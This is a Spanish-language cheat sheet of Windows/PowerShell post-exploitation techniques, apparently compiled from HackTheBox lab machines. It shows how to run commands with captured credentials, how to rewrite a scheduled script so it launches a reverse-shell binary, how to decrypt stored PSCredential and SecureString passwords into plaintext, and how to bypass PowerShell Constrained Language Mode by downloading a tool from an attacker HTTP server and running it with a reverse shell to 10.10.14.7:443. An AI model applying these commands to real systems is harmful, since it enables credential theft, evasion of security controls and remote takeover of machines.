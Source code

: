 ## Otras cosas con contraseñas

En caso de que tengamos credenciales de un usuario pero `EnterPSSession` no funcione, podemos hacer algo así:

- Primero definimos la variable `$pass`:

```powershell
$pass = ConvertTo-SecureString "<CONTRASEÑA>" -AsPlainText -Force
```

- Ahora definimos la variable `$cred`:

```powershell
$cred = New-Object System.Management.Automation.PSCredential("<DOMINIO>\<USUARIO>", $pass)
```

- Y ahora por último ejecutamos comandos como el usuario en cuestión usando `Invoke-Command`:

```powershell
Invoke-Command -ComputerName <HOSTNAME> -Credential $cred -ScriptBlock { <COMANDO> }
```

A que mola?

## Sobreescribiendo archivos con `Invoke-Command`

Situación: podemos ejecutar comandos como un usuario gracias a `Invoke-Command`. Vemos que tiene un archivo que ejecuta un comando como otro usuario pero ese comando no nos sirve. Hemos puesto un `shell.exe` en `C:\Utils` que nos enviará una reverse shell a nuestro equipo. Como podemos hacer para editar el comando que se ejecuta en ese script? No es nada del otro mundo. El comando que se ejecuta es `Get-Volume` así que para reemplazarlo la sintaxis sería algo así:

```powershell
Invoke-Command -ComputerName <HOSTNAME> -ConfigurationName dc_manage -Credential $cred -ScriptBlock { ((Get-Content path\to\script.ps1 -Raw) -Replace 'Get-Volume','cmd.exe /c path\to\file.exe') | Set-Content -Path path\to\script.ps1 }
```

## Ver reglas de firewall

Si conseguimos ejecución de comandos en una máquina Windows pero vemos que no puede conectar con nuestro servidor local, en vez de perder el tiempo intentando subir shells vamos a necesitar listar reglas de firewall para ver si está bloqueado:

Para `Outbound` blocked rules (tráfico saliente):

```powershell
Get-NetFirewallRule -Direction Outbound -Action Block -Enabled True
```

Para `Outbound` allowed rules (tráfico saliente):

```powershell
Get-NetFirewallRule -Direction Outbound -Action Allow -Enabled True
```

Para `Inbound` blocked rules (tráfico entrante):

```powershell
Get-NetFirewallRule -Direction Inbound -Action Block -Enabled True
```

Para `Inbound` allowed rules (tráfico entrante):

```powershell
Get-NetFirewallRule -Direction Inbound -Action Allow -Enabled True
```

Para ver **exactamente** que puertos son bloqueados:

```powershell
Get-NetFirewallRule -Direction Outbound -Action Block -Enabled True | Format-Table -Property Name,DisplayName,DisplayGroup,@{Name='Protocol';Expression={($PSItem | Get-NetFirewallPortFilter).Protocol}},@{Name='LocalPort';Expression={($PSItem | Get-NetFirewallPortFilter).LocalPort}},@{Name='RemotePort';Expression={($PSItem | Get-NetFirewallPortFilter).RemotePort}},@{Name='RemoteAddress';Expression={($PSItem | Get-NetFirewallAddressFilter).RemoteAddress}},Enabled,Profile,Direction,Action
```

## Ver contraseñas en texto claro de archivos `xml`

Si tenemos un archivo algo como este:

```xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">HTB\Tom</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692</SS>
    </Props>
  </Obj>
</Objs>
```

Podemos llegar a ver la contraseña del usuario en cuestión en texto claro:

```powershell
$cred = Import-CliXml -Path C:\path\to\file.xml; $cred.getNetworkCredential() | Format-List *
```

En este caso se vería algo así:

```powershell
C:\Users\nico\Desktop>powershell -c "$cred = Import-CliXml -Path C:\Users\nico\Desktop\cred.xml; $cred.getNetworkCredential()"

UserName       : Tom
Password       : 1ts-mag1c!!!
SecurePassword : System.Security.SecureString
Domain         : HTB

C:\Users\nico\Desktop>
```

Ahora puedes usar o bien `evil-winrm` para conectarte (si es que pertenece al grupo `Remote Management Users`) o si está el puerto 22 abierto, por `SSH`.

## EnterPSSession

En caso de no poder conectarnos por WinRM con credenciales válidas, podemos hacer uso de `powershell` en Linux para entrar en una sesión de `powershell`:

```powershell
sudo pwsh
Install-Module -Name PSWSMan -Scope AllUsers
Install-WSMan
exit
sudo pwsh
Enter-PSSession <HOSTNAME>.<DOMINIO> -Credential <USUARIO>
```

Pero antes necesitamos editar nuestro `/etc/krb5.conf`

```shell
[libdefaults] 
	default_realm = <DOMINIO> 
# The following libdefaults parameters are only for Heimdal Kerberos. 
	fcc-mit-ticketflags = true 
[realms] 
	<DOMINIO> = {
		kdc = <HOSTNAME>.<DOMINO>
		admin_server = <HOSTNAME>.<DOMINO>
		}
[domain_realm]
```

## CLM ByPass 

Para saber si estamos en uno:

```powershell
*Evil-WinRM* PS C:\Users\amanda\appdata\local\temp> $ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage
*Evil-WinRM* PS C:\Users\amanda\appdata\local\temp> 
```

Primero clonamos este repo:

```shell
git clone https://github.com/padovah4ck/PSByPassCLM.git
```

Luego:

```shell
cd PSByPassCLM/PSBypassCLM/PSBypassCLM/bin/x64/Debug
```

Creamos servidor:

```shell
python3 -m http.server 80
```

Y lo descargamos en la máquina:

```powershell
iwr -uri http://10.10.14.7/PsBypassCLM.exe -outfile PsBypassCLM.exe
```

Nos ponemos en escucha por netcat y ejecutamos:

```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.14.7 /rport=443 /U c:\users\amanda\appdata\local\temp\PsBypassCLM.exe
```

Otra forma más coñazo de hacerla es con funciones:

```powershell
[10.10.10.210]: PS>function command { ipconfig }
[10.10.10.210]: PS>command

Windows IP Configuration


Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : htb
   IPv6 Address. . . . . . . . . . . : dead:beef::240
   IPv6 Address. . . . . . . . . . . : dead:beef::c5d3:ce0:3595:a8f5
   Link-local IPv6 Address . . . . . : fe80::c5d3:ce0:3595:a8f5%14
   IPv4 Address. . . . . . . . . . . : 10.10.10.210
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:5bc9%14
                                       10.10.10.2

Tunnel adapter isatap.{21EEAC43-8143-4E7F-95A7-85079F9F863C}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : htb
[10.10.10.210]: PS>
```

También puedes así:

```powershell
&{ ipconfig }
```
## Decode Secure.String Password

Tenemos este script de powershell:

```powershell
# TODO: Forward the PowerShell remoting port to the external interface
# Password is now encrypted \o/

$1 = 'WebUser'
$2 = '77,52,110,103,63,109,63,110,116,80,97,53,53,77,52,110,103,63,109,63,110,116,80,97,53,53,48,48,48,48,48,48' -split ','
$3 = '76492d1116743f0423413b16050a5345MgB8AEQAVABpAHoAWgBvAFUALwBXAHEAcABKAFoAQQBNAGEARgArAGYAVgBGAGcAPQA9AHwAOQAwADgANwAxADIAZgA1ADgANwBiADIAYQBjADgAZQAzAGYAOQBkADgANQAzADcAMQA3AGYAOQBhADMAZQAxAGQAYwA2AGIANQA3ADUAYQA1ADUAMwA2ADgAMgBmADUAZgA3AGQAMwA4AGQAOAA2ADIAMgAzAGIAYgAxADMANAA=' 
$4 = $3 | ConvertTo-SecureString -key $2
$5 = New-Object System.Management.Automation.PSCredential ($1, $4)

Invoke-Command -Computer upload.fulcrum.local -Credential $5 -File Data.ps1
```

Y queremos ver la contraseña en texto claro:

```powershell
❯ pwsh
❯ $1 = 'WebUser'
❯$2 = '77,52,110,103,63,109,63,110,116,80,97,53,53,77,52,110,103,63,109,63,110,116,80,97,53,53,48,48,48,48,48,48' -split ','
❯ $3 = '76492d1116743f0423413b16050a5345MgB8AEQAVABpAHoAWgBvAFUALwBXAHEAcABKAFoAQQBNAGEARgArAGYAVgBGAGcAPQA9AHwAOQAwADgANwAxADIAZgA1ADgANwBiADIAYQBjADgAZQAzAGYAOQBkADgANQAzADcAMQA3AGYAOQBhADMAZQAxAGQAYwA2AGIANQA3ADUAYQA1ADUAMwA2ADgAMgBmADUAZgA3AGQAMwA4AGQAOAA2ADIAMgAzAGIAYgAxADMANAA=' 
❯ $4 = $3 | ConvertTo-SecureString -key $2
❯ $5 = New-Object System.Management.Automation.PSCredential ($1, $4)
❯ $Ptr = [System.Runtime.InteropServices.Marshal]::SecureStringToCoTaskMemUnicode($4)     ❯ $result = [System.Runtime.InteropServices.Marshal]::PtrToStringUni($Ptr)
 [System.Runtime.InteropServices.Marshal]::ZeroFreeCoTaskMemUnicode($Ptr)
❯ $result 
```

